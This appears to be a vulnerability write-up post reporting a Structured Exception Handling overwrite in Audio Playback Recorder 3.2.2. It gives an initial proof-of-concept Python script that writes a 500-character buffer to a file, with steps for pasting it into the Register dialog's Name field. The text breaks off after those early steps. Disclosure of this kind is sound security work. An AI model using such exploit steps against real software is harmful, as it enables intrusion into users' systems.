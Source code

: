 ```yaml
---
layout: post
title: Audio Playback Recorder 3.2.2 - Structured Exception Handling Overwrite
date: 2020-03-08 18:00:00
categories: posts
comments: false
en: true
---
```


#### Audio Playback Recorder 3.2.2 suffers from a Structured Exception Handling Overwrite when a long string is parsed through the parameter “Name” within the "Register" section.

##### Initial PoC:

```terma
import struct

buffer = "A" * 500

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

##### Once the exploit is run, the payload is copied into the clipboard.

##### In order to exploit the application, press "Go".

![](/assets/img/Findings11/1.png)

##### Press on the button "Register".

![](/assets/img/Findings11/2.png)
